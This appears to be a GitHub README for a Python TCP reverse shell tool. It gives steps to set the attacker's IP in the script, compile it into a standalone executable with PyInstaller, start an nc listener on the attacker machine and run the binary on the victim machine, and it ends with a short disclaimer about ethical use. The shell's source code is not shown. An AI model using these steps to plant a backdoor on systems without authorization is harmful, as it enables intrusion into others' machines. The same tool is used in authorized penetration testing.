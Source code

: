 ![version](https://img.shields.io/badge/Version-1.0.7-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/Keyj33k/ReverseShell?style=social) ![forks](https://img.shields.io/github/forks/Keyj33k/ReverseShell?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/Keyj33k/ReverseShell?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/Keyj33k/ReverseShell?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 

# Reverse Shell :snake:
- A python3 tcp reverse shell.

### Bash Remote Access Made Easy

---

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

### :question: How to use this reverseshell? 

- 1 ) Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- 2 ) Now you need to navigate to the ReverseShell directory.
```
cd ReverseShell
```
- You will find a file called >> reverseshell.py:

### :wrench: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revshell.png?raw=true)
---
- 3 ) This Reverse Shell needs requirements you need to install:
```
pip install -r requirements.txt
```
- 4 ) Build an executable using this command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```
### :sparkles: If the steps above are done:

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the victim machine:
```
./reverseshell
```
### :gem: Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---
---
  
- Tested on 5.18.0-kali3-amd64, 5.15.0-41-generic-Ubuntu
  
---


